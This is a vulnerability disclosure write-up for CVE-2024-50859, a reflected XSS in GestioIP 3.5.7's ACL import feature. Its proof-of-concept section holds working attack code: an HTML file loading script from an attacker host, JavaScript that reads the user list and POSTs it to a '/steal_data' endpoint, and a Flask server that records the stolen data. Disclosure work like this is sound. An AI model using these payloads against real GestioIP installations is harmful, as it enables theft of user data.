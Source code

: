 ```yaml
---
title: "CVE-2024-50859. GestioIP Vulnerability: Reflected XSS"
description: Reflected Cross-Site Scripting
date: 2025-01-13T12:28:27-03:00
images: 
author: Maximiliano Belino
lang: en
tags:
  - vulnerability
  - CVE
  - Refelected
  - XSS
---
```

# CVE-2024-50859

- [Information](#information)
	- [Description](#description)
- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
	- [Description](#description)
	- [Steps to Reproduce](#steps-to-reproduce)
	- [Case: Basic test "hello world!"](#case-basic-test-hello-world)
		- [Usage/Exploitation](#usageexploitation)
	- [Case: Data exfiltration](#case-data-exfiltration)
		- [Usage/Exploitation](#usageexploitation)
		- [Files](#files)

## Information

### Description

The `ip_import_acl_csv` request is vulnerable to Reflected XSS (Reflected Cross-Site Scripting); the user can upload a file and the file content is reflected in the HTML response without being sanitized. If the file uploaded by the user has an incorrect format and an error occurs during its processing, part of the file's content may be displayed in the browser. If this content includes HTML or scripts and it is not properly escaped, the browser could interpret it, leading to a security vulnerability. This could allow data exfiltration and enabling CSRF (Cross-Site Request Forgery) attacks.<br>
Proper input validation and output encoding are critical to prevent this vulnerability.


**Versions Affected:** 3.5.7 <br> 

## Proof-of-Concept Exploit
### Description

The `ip_import_acl_csv` feature of GestioIP 3.5.7 is vulnerable to Reflected XSS, leading to data exfiltration and CSRF attacks.


### Steps to Reproduce


**Step 1.** Set this in the Global Configuration

	Manage > Manage GestioIP > ACL connection management

![](files/CVE-2024-50859.png)

Then you can see the menu option:

			import/export > "import ACLs/ACL Connections"

![](files/CVE-2024-50859-1.png)

**Step 2.** Upload a "malicious" file

Select: import/export > Import ACLs/ACL Connections

Select: "Connection List"

Select "report only"

Browse to select the file you want to upload.

Click 'upload'

![](files/CVE-2024-50859-2.png)


### Case: Basic test "hello world!"

This is just a simple example to showcase that HTML content is reflected in the browser output.

#### Usage/Exploitation

To exploit this vulnerability the attacker uploads a basic HTML file `hello.html` that includes H1 HTML tags:


`hello.html`

```html
<h1>Hello World!</h1>
```

Upload the HTML file:

![](files/CVE-2024-50859-7.png)


After clicking upload the webpage shows:

![](files/CVE-2024-50859-8.png)


{{< admonition type=danger title="Danger" >}}
The application displays the uploaded content in the browser, rendering it as a formatted `<h1>` tag instead of escaping characters to treat it as plain text. Without proper escaping, this behavior can be exploited by an attacker to inject malicious scripts, leading to a reflected XSS vulnerability.
{{< /admonition >}}



### Case: Data exfiltration

For example, an attacker could leverage this vulnerability to **retrieve the list of users** from the GestioIP application. If an administrator uploads a "malicious" HTML file while authenticated to the application, the HTML will be interpreted by the browser, and the XSS payload will be triggered.

This causes the administrator's browser to perform a GET request to a file hosted on the attacker's server, retrieving the user list from the GestioIP application. Subsequently, the browser will send a POST request to the attacker's server, exfiltrating the obtained user information.

#### Usage/Exploitation

To exploit this vulnerability:

• The admin user uploads a malicious file, such as `refxss_3.html`, which will request a '**.js**' file from the attacker's server.

![](files/CVE-2024-50859-3.png)

• The attacker must host the `refxss_exfiltrate_3.js` file on a server they control (e.g., using `python3 -m http.server 8090`), along with a Python Flask server to receive the exfiltrated data.

Once the authenticated administrator uploads the malicious HTML file, the XSS is triggered, prompting the admin's browser to collect the data and send it to the attacker's server.


After clicking upload:

1. The webpage shows:

![](files/CVE-2024-50859-4.png)


2. The server processed the html file and the attacker server receives the GET request for the 'js' file:

![](files/CVE-2024-50859-5.png)


3. The data is gathered as stated in the JS file, and afterwards, the attacker's Flask server receives the POST request.

![](files/CVE-2024-50859-6.png)

4. Data exfiltrated is saved to a file in the attacker's server.


#### Files


1. `refxss_3.html`

```html
<html><script src="http://10.20.0.1:8090/refxss_exfiltrate_3.js"></script></html>
```



2. `refxss_exfiltrate_3.js`

```javascript
var req1 = new XMLHttpRequest();
req1.open('GET',"http://localhost/gestioip/res/ip_show_user.cgi", false);
req1.send();

response = req1.responseText;

var req2 = new XMLHttpRequest();
req2.open('POST', "http://10.20.0.1:8000/steal_data", false);
req2.setRequestHeader('Content-Type', 'text/html');
req2.send(response);
```



3. `server_flask_html.py` 

Python flask server

```python 
from flask import Flask, request
from flask_cors import CORS
import json

app = Flask(__name__)
CORS(app)

@app.route('/steal_data', methods=['POST'])
def steal_data():
    data = request.data.decode('utf-8')
    with open('data_exfiltrated.html', 'a') as f:  
        f.write(data + '\n')
    return 'Data received and saved', 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)

```
